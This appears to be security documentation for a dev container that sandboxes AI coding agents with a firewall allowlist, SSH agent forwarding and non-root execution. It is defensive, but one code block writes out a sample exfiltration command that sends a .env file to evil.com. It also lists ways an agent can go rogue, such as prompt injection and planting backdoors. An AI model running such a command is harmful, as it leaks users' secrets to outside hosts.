


Agent Devbox implements defense-in-depth to protect against AI agent attacks while maintaining usability.

## Design Goals

1. **Prevent Data Exfiltration** — Block unauthorized network access
2. **Protect Credentials** — Keep private keys on the host
3. **Limit Blast Radius** — Contain damage if agent goes rogue
4. **Maintain Usability** — Security should not impede productivity

## Security Layers

### 1. Container Isolation



**Blocks:**
- Host process visibility
- Host filesystem access
- Host network sniffing

### 2. Network Egress Filtering

Default-deny firewall with explicit whitelist:

| Domain | Reason |
|--------|--------|
| `github.com` | Git operations |
| `registry.npmjs.org` | npm packages |
| `api.anthropic.com` | Claude API |
| `pypi.org` | Python packages |
| `crates.io` | Rust packages |

**Attack blocked:**
```bash
# Agent tries to exfiltrate secrets
curl https://evil.com/steal?data=$(cat .env)
# Result: Connection refused
```

### 3. SSH Agent Forwarding



**Agent CAN:** Use keys for git operations  
**Agent CANNOT:** Read the private key

### 4. Non-Root Execution

Agent runs as `node` user (UID 1000), not root.

**Prevents:**
- System file modification
- Persistent backdoors
- Firewall disablement

## Threat Mitigations

| Threat | Mitigation |
|--------|------------|
| Indirect Prompt Injection | SSH forwarding + firewall |
| Supply Chain Attacks | Network filtering blocks callbacks |
| Destructive Commands | Non-root + volume isolation |
| Persistent Backdoors | Ephemeral containers |
| Resource Exhaustion | 4GB RAM, 512 process limit |

## What Is NOT Protected

- **User-approved malicious commands** — Review before approving
- **Malicious code in trusted domains** — Code review required
- **Social engineering** — Education is key

## Verification

Check firewall status:
```bash
sudo iptables -L -v -n
sudo ipset list allowed-domains
```

Test blocked domain:
```bash
curl -I https://example.com  # Should fail
```

Test allowed domain:
```bash
curl -I https://api.github.com  # Should succeed
```

Check SSH forwarding:
```bash
ssh-add -l  # Should show host's keys
```

## Incident Response

If you suspect compromise:

1. **Stop the container:** `docker stop <container-id>`
2. **Review git changes:** `git diff`
3. **Check logs:** `docker logs <container> | grep FIREWALL_BLOCK`
4. **Rebuild:** `F1 → "Dev Containers: Rebuild Container"`
5. **Rotate credentials** if needed
